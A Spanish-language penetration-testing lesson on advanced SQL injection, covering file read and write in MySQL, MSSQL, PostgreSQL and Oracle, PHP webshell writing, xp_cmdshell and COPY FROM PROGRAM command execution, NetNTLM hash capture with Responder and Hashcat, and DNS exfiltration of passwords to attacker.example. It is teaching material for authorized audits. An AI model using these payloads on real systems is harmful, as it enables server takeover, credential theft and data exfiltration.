




# Lección 06: Explotación avanzada: Archivos, RCE y canales fuera de banda (OOB)

[Inicio](../../../README.md) | [Pentesting Web](../../README.md) | [Módulo SQLi](../README.md) | [Anterior: Inyecciones SQL a ciegas](../05-blind-sqli/README.md) | [Siguiente: Automatización profesional con SQLMap](../07-automatizacion-sqlmap/README.md)

> [!CAUTION]
> La ejecución de comandos del sistema operativo, la escritura de webshells en disco y la interacción con recursos SMB externos alteran el estado del servidor auditado. Estas operaciones están estrictamente limitadas a auditorías formales con autorización contractual expresa.

## Introducción

Cuando una inyección SQL se combina con configuraciones permisivas del gestor de base de datos o privilegios administrativos (`root`, `sa`, `postgres`), el impacto de la vulnerabilidad trasciende la capa de datos.

La explotación avanzada permite interactuar con el sistema de archivos del servidor subyacente (lectura y escritura arbitraria), ejecutar comandos en el sistema operativo (**Remote Code Execution - RCE**), interceptar credenciales de red (hashes NetNTLM) o exfiltrar información a través de canales encubiertos fuera de banda (**Out-of-Band - OOB**) mediante el protocolo DNS.



---

## 1. Lectura y escritura en el sistema de archivos

### MariaDB y MySQL

En MySQL y MariaDB, la interacción con el sistema de archivos depende del privilegio global `FILE` y de la directiva de seguridad `secure_file_priv`.

#### Inspección de la directiva `secure_file_priv`

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

- **Valor vacío (`""`)**: El motor permite leer y escribir en cualquier directorio donde el usuario del sistema operativo (`mysql`) posea permisos.
- **Ruta definida (ej. `/var/lib/mysql-files/`)**: Las operaciones de lectura y escritura quedan confinadas exclusivamente a ese directorio.
- **Valor `NULL`**: Las funciones de importación y exportación de archivos están deshabilitadas por completo.

#### Lectura de archivos con `LOAD_FILE()`

La función `LOAD_FILE(ruta_absoluta)` lee un archivo en disco y devuelve su contenido como una cadena de texto:

```sql
-- Lectura de la base de usuarios en Linux
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -

-- Lectura del archivo de hosts en Windows
' UNION SELECT 1, LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts'), 3, 4-- -
```

#### Escritura de webshells con `INTO OUTFILE`

Si la ruta raíz del servidor web (*webroot*) es conocida y el proceso `mysql` tiene permisos de escritura en ella:

```sql
' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>', 3, 4 INTO OUTFILE '/var/www/html/shell.php'-- -
```

Una vez escrito, el atacante invoca el archivo a través del servidor HTTP:

```bash
curl "http://app.example.com/shell.php?cmd=whoami"
```

---

### Microsoft SQL Server (MSSQL)

En MSSQL, la lectura de archivos se ejecuta mediante proveedores OLE DB o funciones de inserción masiva:

```sql
-- Lectura mediante OPENROWSET (requiere permisos ADMINISTER BULK OPERATIONS)
SELECT * FROM OPENROWSET(BULK 'C:\Windows\win.ini', SINGLE_CLOB) AS Archivo;
```

---

### PostgreSQL

PostgreSQL dispone de dos métodos principales: el comando `COPY` y los objetos binarios de gran tamaño (*Large Objects*).

#### Lectura con tablas temporales y `COPY`

```sql
-- 1. Crear tabla temporal en la sesión actual
CREATE TEMP TABLE loot(line text);

-- 2. Copiar el contenido del archivo a la tabla
COPY loot FROM '/etc/passwd';

-- 3. Leer los datos mediante la inyección SQL habitual
SELECT line FROM loot;
```

#### Escritura mediante `COPY`

```sql
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/uploads/shell.php';
```

---

## 2. Ejecución remota de comandos en el sistema operativo (RCE)

### Microsoft SQL Server y el procedimiento `xp_cmdshell`

`xp_cmdshell` es un procedimiento almacenado extendido en MSSQL que ejecuta comandos del sistema operativo en el contexto de la cuenta de servicio (habitualmente `NT SERVICE\MSSQLSERVER` o `NT AUTHORITY\SYSTEM`).



Por diseño, se encuentra deshabilitado de forma predeterminada. Si la inyección permite consultas apiladas (*stacked queries*, delimitadas por punto y coma `;`) y la conexión opera con el rol `sysadmin` (`sa`), el atacante puede activarlo dinámicamente:

```sql
-- Paso 1: Habilitar configuración avanzada
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Paso 2: Habilitar xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Paso 3: Ejecución de comando arbitrario
EXEC xp_cmdshell 'whoami > C:\temp\out.txt';
```

Vector en carga útil web (URL-encoded):

```sql
';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;EXEC xp_cmdshell 'powershell -Enc ...';--
```

---

### PostgreSQL: Ejecución vía `COPY ... FROM PROGRAM`

A partir de la versión 9.3 de PostgreSQL, los usuarios con rol de superusuario (`postgres`) pueden ejecutar comandos del sistema operativo directamente con la directiva `PROGRAM`:

```sql
-- Crear tabla de recepción
CREATE TABLE cmd_exec(output text);

-- Ejecutar comando del sistema operativo y capturar su salida
COPY cmd_exec FROM PROGRAM 'id';

-- Consultar la salida
SELECT output FROM cmd_exec;
```

---

## 3. Captura de hashes NetNTLM mediante peticiones UNC (MSSQL)

En entornos corporativos basados en Windows Active Directory, Microsoft SQL Server puede interactuar con rutas de red UNC (*Universal Naming Convention*): `\\servidor\recurso`.

Si se fuerza al servidor SQL a consultar un recurso ubicado en un equipo controlado por el auditor, el protocolo de autenticación del sistema operativo iniciará un intercambio de desafío/respuesta NTLM, transmitiendo el hash **NetNTLMv2** de la cuenta de servicio de SQL Server.



### Procedimientos de provocación SMB

Los procedimientos de inspección de directorios no requieren privilegios `sysadmin`:

```sql
-- Enumeración de directorios hacia la IP del auditor
EXEC master..xp_dirtree '\\10.10.14.5\share';

-- Comprobación de existencia de archivos
EXEC master..xp_fileexist '\\10.10.14.5\share\test.txt';
```

El auditor captura el hash en su máquina con herramientas como `Responder`:

```bash
sudo responder -I tun0 -v
```

El hash capturado puede someterse a fuerza bruta offline con Hashcat (modo 5600 para NetNTLMv2):

```bash
hashcat -m 5600 hash_capturado.txt /usr/share/wordlists/rockyou.txt
```

---

## 4. Inyecciones fuera de banda (Out-of-Band - OOB)

La **inyección SQL fuera de banda** (*Out-of-Band SQLi*) se emplea cuando el canal HTTP es totalmente ciego, no existen diferencias booleanas ni temporales fiables, o la ejecución de la consulta se procesa de forma asíncrona mediante colas de tareas.

La técnica fuerza al motor de base de datos a realizar una solicitud de red saliente hacia un servidor de nombres (DNS) o servidor HTTP controlado por el auditor (utilizando herramientas como **Burp Collaborator** o **Interactsh**).



### Mecánica de exfiltración mediante DNS

El protocolo DNS es el canal saliente preferido porque casi ningún cortafuegos corporativo bloquea las resoluciones de nombres hacia servidores DNS externos.

Al componer una consulta DNS que incluya el resultado de una sentencia SQL en el prefijo del subdominio:

$$\text{Subdominio} = \text{resultado\_sql} + \text{".collab.example.com"}$$

El servidor DNS autoritativo del dominio `collab.example.com` recibe y registra la consulta con los datos confidenciales integrados.

### Payloads de exfiltración DNS por motor

#### Microsoft SQL Server

MSSQL resuelve nombres DNS al invocar rutas UNC con `xp_dirtree`:

```sql
DECLARE @data varchar(1024);
SELECT @data = (SELECT TOP 1 password FROM users WHERE username='admin');
EXEC('master..xp_dirtree "\\' + @data + '.attacker.example\a"');
```

#### MySQL / MariaDB (Entornos Windows)

MySQL en Windows resuelve nombres de host en llamadas a `LOAD_FILE()`:

```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE id=1), '.attacker.example\\a'));
```

#### Oracle Database

En Oracle, paquetes integrados como `UTL_INADDR` o `UTL_HTTP` resuelven dominios externos:

```sql
SELECT UTL_INADDR.get_host_address((SELECT user FROM dual) || '.attacker.example') FROM dual;
```

---

## 5. Matriz comparativa de capacidades avanzadas por RDBMS

| Motor RDBMS | Lectura de archivos | Escritura de archivos | Ejecución de comandos (RCE) | Canal DNS Out-of-Band |
|---|---|---|---|---|
| **MariaDB / MySQL** | `LOAD_FILE()` | `INTO OUTFILE` | UDF (`sys_eval`) | `LOAD_FILE('\\\\host\\...')` *(Windows)* |
| **MSSQL** | `OPENROWSET(BULK)` | `sp_OAMethod` | `xp_cmdshell` | `xp_dirtree '\\\\host\\...'` |
| **PostgreSQL** | `COPY`, Large Objects | `COPY`, Large Objects | `COPY ... FROM PROGRAM` | No nativo directo *(extensiones)* |
| **Oracle** | `UTL_FILE` | `UTL_FILE` | Java Stored Procedures | `UTL_INADDR`, `UTL_HTTP` |

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: Inyecciones SQL a ciegas](../05-blind-sqli/README.md) | [Volver al índice del módulo](../README.md) | [Siguiente: Automatización profesional con SQLMap](../07-automatizacion-sqlmap/README.md)
